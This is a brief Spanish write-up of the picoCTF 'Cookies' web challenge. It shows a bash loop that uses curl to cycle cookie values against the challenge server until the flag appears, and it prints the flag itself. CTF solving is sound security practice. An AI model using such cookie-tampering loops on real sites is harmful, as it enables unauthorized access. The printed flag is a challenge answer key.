 Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:17781/](http://mercury.picoctf.net:17781/)

# Solución
Hacer un curl a la página de manera repetitiva e ir iterando por los diferentes nombres de las galletas hasta encontrar la flag haciendo uso tambien de curl
```
diego@Tallin:/mnt/c/Users/Diego$ for i in {0..30}; do curl http://mercury.picoctf.net:17781/check -H "Cookie: name=$i" | grep "picoCTF"; done   

<p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}</code></p> 
```
